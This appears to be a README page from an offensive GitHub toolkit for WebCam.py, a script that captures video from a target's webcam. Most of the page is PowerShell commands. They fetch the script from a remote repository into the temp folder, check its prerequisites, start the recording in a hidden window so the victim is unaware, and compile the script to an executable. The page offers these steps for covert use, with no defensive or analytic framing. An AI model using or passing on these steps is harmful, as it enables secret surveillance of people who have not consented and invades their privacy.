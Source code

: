 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to our 'python\site-packages' directory
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
cd $Env:TMP;Start-Process -WindowStyle hidden python3 -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python3.9" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```
